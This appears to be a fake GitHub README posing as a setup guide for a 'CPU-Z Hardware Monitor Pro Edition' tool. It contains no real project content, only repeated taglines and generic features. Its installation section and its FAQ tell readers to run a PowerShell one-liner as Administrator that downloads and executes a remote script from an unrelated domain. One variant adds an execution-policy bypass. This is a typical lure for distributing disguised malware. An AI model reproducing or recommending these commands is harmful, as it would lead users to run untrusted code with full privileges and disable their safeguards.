

<div align="center">


# CPU-Z Hardware Monitor Pro Edition Complete Setup Guide
**See exact CPU, motherboard and RAM specs — essential for PC building and troubleshooting.**



</div>

---

> See exact CPU, motherboard and RAM specs — essential for PC building and troubleshooting.

## `ABOUT`

CPU-Z Hardware Monitor Pro Edition Complete Setup Guide — See exact CPU, motherboard and RAM specs — essential for PC building and troubleshooting.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🖥️ **System specs** — Exact CPU, socket, chipset and BIOS version.
📊 **Live clocks** — Real-time core speed and multiplier.
💾 **Memory info** — RAM type, speed, timings and slots used.
📋 **Validation** — Submit and compare benchmark reports online.
🔧 **Every build** — First tool installed on new PCs.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB recommended |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section above.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>What does this tool do?</b></summary>
<br>See exact CPU, motherboard and RAM specs — essential for PC building and troubleshooting.
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Re-run the same PowerShell command to fetch the latest build.
</details>
